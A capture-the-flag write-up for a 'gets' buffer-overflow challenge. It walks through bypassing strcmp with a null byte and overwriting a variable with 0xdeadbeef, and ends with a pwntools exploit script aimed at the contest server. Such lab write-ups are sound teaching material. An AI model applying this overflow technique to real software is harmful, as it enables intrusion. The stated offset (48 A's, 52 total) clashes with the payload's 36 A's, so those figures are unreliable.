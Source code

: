 First, we take a look at the c source code that they gave us.

We see that there is a strcmp function first that we need to get past.

Next, after we pass the strcmp we have to overwrite the debuf variable so it equals 0xdeadbeef.

Now we have to figure out our payload to meet the requirements.

First we know that we have to pass the strcmp, which compares our input with the string "Yes".

Now after we pass the strcmp part of the binary, we try to overwrite into the variable by adding many A's.

After trying to add many A's to our payload, we realize something is wrong.

We are now not getting past the strcmp and it sends us directly to the bottom.

Now the way that we can get past the strcmp is to send a null terminator which is \x00.

Now we have to find the proper offset to overwrite into the flag variable, which is buf.

Finding the offset was pretty simple. We just had to test A's until we got 1 A into segmentation fault which meant we started overwriting the variable.

We find that the offset was an extra 48 A's after the 'Yes' and the null terminator, \x00, which in total gives us the offset of 52.

Now all we have to do is write the variable exactly to 0xdeadbeef.

We could do this by concatenating \xef\xbe\xad\xde or using pwntools p64(0xdeadbeef).

So now, we just had to create the program in python with the correct parts.

The total payload we were sending was ```r.sendline(b'Yes' + b'\0' + b'A'*36 + p64(0xdeadbeef) + p64(0x7ffff7fb1390))```

Exploit:

```python
from pwn import *

exe = ELF("gets")

context.binary = exe


def conn():
        if False:
                return process([exe.path])
        else:
                return remote("gets.litctf.live", 1337)


def main():
        r = conn()
        r.recvuntil("Are you starting to understand?")
        r.sendline(b'Yes' + b'\0' + b'A'*36 + p64(0xdeadbeef) + p64(0x7ffff7fb1390))
        r.interactive()


if __name__ == "__main__":
        main()
```
